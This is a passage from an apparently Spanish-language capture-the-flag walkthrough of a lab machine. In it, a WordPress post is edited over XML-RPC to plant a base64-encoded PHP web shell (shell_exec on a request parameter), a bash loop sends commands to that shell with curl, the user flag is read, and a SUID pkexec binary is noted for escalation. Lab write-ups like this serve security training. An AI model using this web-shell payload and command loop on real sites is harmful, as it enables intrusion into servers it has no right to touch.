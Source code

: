 ```null
>>> new_post = post[0]
>>> new_post.content = '<!-- wp:paragraph -->\n<p>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"PD9waHAKICBzaGVsbF9leGVjKCRfUkVRVUVTVFsnY21kJ10pOwo/Pgo=","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragra
ph -->\n<p></p>\n<!-- /wp:paragraph -->'
>>> client.call(posts.EditPost(new_post.id, new_post))
True
```

Pero hay reglas de firewall implementas y no puedo ganar acceso como ```www-data```, por lo que es necesario hacer un script en bash que se encargue de crear una ShelloverHTTP

```null
#!/bin/bash


function ctrl_c(){
  echo -e '\n'
  exit 1
}

# Ctrl+C
trap ctrl_c INT

url="http://10.10.11.142/index.php/2022/01/28/hello-world/?cmd="

while [ "$command" != "exit" ]; do
  echo -n "$~ " && read -r command
  command="$(echo $command | tr ' '  '+')"
  curl -s -X GET "$url$command" | grep "<pre>" -A 100 | grep "</pre>" -B 100 | sed 's/<pre>//' | sed 's/<\/pre>//'
done
```

Puedo ver la primera flag

```null
$~ cat /home/htb/user.txt
997036fb9aaeb86406c23ece2e4aaafe
```

# Escalada

Existe el ```pkexec``` y es SUID

```null
$~ which pkexec | xargs ls -l
-rwsr-xr-x 1 root root 23440 Jul 14  2021 /usr/bin/pkexec
```

